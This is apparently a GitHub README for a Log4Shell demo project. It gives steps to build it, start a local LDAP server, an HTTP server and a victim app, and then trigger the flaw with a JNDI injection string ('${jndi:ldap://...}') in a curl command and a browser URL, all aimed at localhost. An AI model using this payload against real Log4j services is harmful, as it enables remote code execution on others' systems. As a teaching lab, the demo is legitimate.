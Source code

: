 # Demo Project for the Log4j vulnerability

## Setup

1. Install a Java SDK. It works e.g. with Oracle SDK Version 8 or OpenJDK Version 11
2. Clone this project:
```
git clone https://github.com/dmancloud/log4j-shell-poc
```

3. Go into the folder:
   
```
cd log4j-log4shell-exploit
```

## Run the demo

On Windows use `mvnw.cmd` instead of `./mvnw`

1.) Build the project:

```
./mvnw package
```

2. Start the LdapServer:

```
./mvnw exec:java -D"exec.mainClass"="de.predic8.LdapServer"
```

2.) Start the HttpServer:

```
./mvnw exec:java -D"exec.mainClass"="de.predic8.HttpServer"
```

3.) Start the victim:

```
./mvnw exec:java -D"exec.mainClass"="de.predic8.Opfer"
```

4.) Use curl or your browser to invoke the following URL:

```
curl 'http://localhost:8000/hallo?name=$\{jndi:ldap://localhost:10389/cn=badcode,dc=predic8,dc=de\}'
```

or open in your browser:

```
http://localhost:8000/hallo?name=${jndi:ldap://localhost:10389/cn=badcode,dc=predic8,dc=de}
```

The victim application will write into its log and the ldap query will be executed. The result of the Ldap query will make the victim loading the malicious class from the HTTP server and executing it.
